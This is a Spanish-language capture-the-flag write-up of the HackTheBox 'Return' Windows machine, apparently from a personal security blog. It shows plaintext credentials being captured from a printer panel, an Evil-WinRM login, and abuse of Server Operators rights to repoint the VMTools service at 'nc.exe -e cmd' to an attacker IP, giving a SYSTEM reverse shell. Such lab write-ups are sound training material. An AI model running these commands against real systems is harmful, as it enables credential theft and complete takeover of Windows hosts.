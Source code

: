 ```yaml
---
title: 'CTF - Return WriteUp'
date: '2022-02-11'
tags: ["CTF", "Windows", "ServerOperatorGroupAbusing", "ServiceConfigurationManipulation", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: 'En este reto CTF nos encontramos con una máquina Windows. Al escanear los puertos abiertos con NMAP, descubrimos un portal web en el puerto 80 que parece ser un panel de administración de impresoras. Al investigar más, encontramos un formulario de registro en el que podemos introducir nuestra IP. Al interceptar la comunicación con netcat, obtenemos una contraseña y un usuario. Usando Evil-WinRM, obtenemos la primera flag y más tarde encontramos un método para escalar privilegios de Administrador al pertenecer al grupo "Server Operators". Intentamos crear un servicio con el binario nc.exe, pero no tenemos permisos para ello. Cambiamos uno de los servicios existentes y logramos obtener una reverse shell. Finalmente, al obtener la consola con privilegios de sistema, obtenemos la flag final.'
images: ["/static/images/uploads/ctf-return/return.webp", "/static/images/uploads/ctf-return/image-7.webp"]
---
```


![](/static/images/uploads/ctf-return/return.webp)

Estamos ante una máquina **Windows**. Esto es algo que deducimos una vez hacemos un Ping para comprobar la conexión que tenemos con ella.


```
❯ ping 10.10.11.108 -c 1
PING 10.10.11.108 (10.10.11.108) 56(124) bytes of data.
64 bytes from 10.10.11.108: icmp_seq=1 ttl=127 time=43.2 ms
```
En la traza ICMP observamos que el TTL es de 127. Las maquinas Windows, en general, tienen un TTL configurado de 128 mientras que las máquinas Linux suelen tener un TTL de 64. En este caso, hasta llegar a la máquina pasamos por un nodo intermediario y por eso el TLL se descuenta en 1 unidad.

Tras un primer escaneo de puertos con NMAP, aparecen muchos de ellos abiertos. Además, en Windows este tipo de escaneos se suele demorar un poco más. Una vez escaneados los puertos abiertos con TCP Syn Scan, trato de sacar el máximo de información posible utilizando scripts básicos de reconocimiento de NMAP, para ver que información nos facilita.


```
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694,59851 -sCV -v 10.10.11.108 -oN targeted
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
135/tcp   open  msrpc         Microsoft Windows RPC
...
```
Hay un portal web abierto en el puerto 80 y parece un panel de administración de impresoras. Navegando un poco por la plataforma, veo un formulario de registro.

En estos casos donde el formulario te permite introducir una IP, una buena prueba es ponerte en escucha para ver que información te envía el servidor.

![](/static/images/uploads/ctf-return/image-7.webp)

Cambio la dirección IP a mi equipo y me pongo en escucha en el mismo puerto con netcat.


```
❯ nc -lvp 389
listening on [any] 389 ...
10.10.11.108: inverse host lookup failed: Unknown host
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.108] 59872
0*`%return\svc-printer�
                       1edFg43012!!
```
Parece una contraseña. Me la guardo junto con el usuario *return\svc-printer*.

Además, recuerdo que el puerto RPC estaba abierto. Podría probar a conectarme con [Evil-WinRM](https://github.com/Hackplayers/evil-winrm).


```
❯ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents whoami
return\svc-printer
```
Y listo. Obtenemos la primera flag.


```
*Evil-WinRM* PS C:\Users\svc-printer\documents cat ../desktop/user.txt
6df0ae750542xxxxxxxxxxxxxxxxxxx 
```
El siguiente paso es buscar un método que nos permita escalar privilegios de Administrator. En este punto, un buen comienzo es enumerar los privilegios que dispone el usuario actual.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```
[SeLoadDriverPrivilege](https://www.tarlogic.com/es/blog/explotacion-de-la-directiva-cargar-y-descargar-controladores-de-dispositivo-seloaddriverprivilege/) tiene vulnerabilidades conocidas que se podrían explotar, pero voy a continuar buscando información sobre los grupos a los que pertenezco.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop net user svc-printer
...
Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```
Confirmamos que estamos en el grupo de *Remote Management Use* (por eso podemos conectarnos con WinRM) y además pertenezco a otros grupos. Me parece interesante *Server Operators* porque tal y como se visualiza en la web de [Microsoft](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators), vemos que tiene capacidad de parar y ejecutar servicios.

Esto es una vulnerabilidad que se puede explotar porque los servicios son capaces de ejecutar binarios en su arranque. De esta forma, sería interesante configurar un servicio que ejecutase *nc.exe* con el fin de entablar una reverse shell a mi máquina atacante.

Lo primero es traer a la máquina Windows el binario *nc.exe*.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop upload /home/iocio/Desktop/iocio/HTB/Return/content/nc.exe
```
Y trato de crear el nuevo servicio de Windows.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe create reverse binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.21 443"
[SC] OpenSCManager FAILED 5:
Access is denied.
```
Parece que por alguna razón no podemos crear servicios. Vamos a intentar cambiar uno existente. Para ello, enumeramos aquellos que ya hay en ejecución.


```
*Evil-WinRM* PS C:\Users\svc-printer\documents services
Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```
Tras probar a cambiar varios y ver que no me permite modificarlos, doy con uno que sí.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.21 443"
[SC] ChangeServiceConfig SUCCESS
```
A continuación, pongo en mi máquina netcat en escucha, paro el servicio y lo vuelvo a arrancar.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe stop VMTools
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe start VMTools
```
Recibimos la consola por el otro lado.


```
C:\Windows\system32whoami  
nt authority\system
C:\Windows\system32type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
f8fexxxxxxxxxxxxxxxxxxxxxxx
```
Obtenemos la flag y terminamos la máquina.

